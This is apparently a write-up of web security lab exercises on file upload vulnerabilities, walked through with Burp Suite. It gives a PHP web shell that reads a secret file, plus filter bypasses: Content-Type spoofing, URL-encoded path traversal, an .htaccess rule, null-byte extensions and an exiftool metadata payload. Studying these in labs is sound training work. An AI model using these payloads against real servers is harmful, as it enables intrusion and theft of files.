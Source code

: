 **Step 1:**

Login with given credential

**Step 2:**

Create a .php and save this exploit

`<?php echo file_get_contents('/home/carlos/secret'); ?>`

**Step 3:**

We can see in burpsuite the file is upload and in responcewe have answer

**Step 1:**

In this lab we cannot directly upload a file it give error

**Step 2:**

So in this lab we change the content type to image/png in burpuite and file will be uploaded

So first we intercept the request.

**Step 3:**

Change content type to image/png or image/jpeg

I first send it to repeater

From here it is clear that file is uploaded.

**Step4:**

Stop intercept and see the result

**Step 1:**

In this lab we again upload file with same payload.but it will not give error and not execute the file.

**Step 2:**

In this case we will upload file to one level up. But the ../ will be url encoded like

Send the request to repeater

**Step 3:**

Change file name to

../payload.php but url encoded like:..%2fpayload.php

In url we have the result

**Step1**

First upload fille payload.php

**Step 2**

Now we turn on intercept and try by changing changing extension

Send it to repeater.

**Step 3**

Now we change the server setting  by sending .htaccess extension and add this line

`AddType application/x-httpd-php .newEXT`

Here the extension is change to newEXT

Now we upload file with extension payload.newEXT

Now fie is uploaded and webshell is executed successfully.

**Step 1:**

First we upload file as it is

It only get png and jpg file

**Step 2:**

Again we turn on intercept and send the request to repeater.

**Step3**

Now we changing extension by adding null bytes

Now  the file is uploaded successfully

**Step1**

To solve this lab we make a file with php extension and a payload in its meta deta. Other properties of a images file.

So we use command

`exiftool -Comment="<?php echo 'starting point<< ' . file_get_contents('/home/carlos/secret') . ' >>Ending of file'; ?>" cat.png -o payload.php`

Now we one php file is created but other properties of png file

Uploading this file and we have a secret.
